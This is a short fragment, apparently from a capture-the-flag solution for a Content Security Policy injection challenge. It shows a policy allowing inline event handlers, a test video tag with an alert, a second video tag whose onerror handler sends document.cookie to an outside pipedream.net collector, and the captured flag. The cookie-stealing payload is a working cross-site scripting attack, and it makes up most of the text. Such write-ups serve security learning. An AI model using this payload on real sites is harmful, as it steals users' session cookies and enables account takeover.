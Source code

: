 ; script-src-attr 'unsafe-inline'

<video src="non-existent-video.mp4" onerror="alert('Error loading video!')"></video>

<video src="non-existent-video.mp4" onerror="window.location.href='https://envaxh1ky3cse.x.pipedream.net/?' + document.cookie"></video>

flag{CSP_1nject10n_4r3_34sy!!!}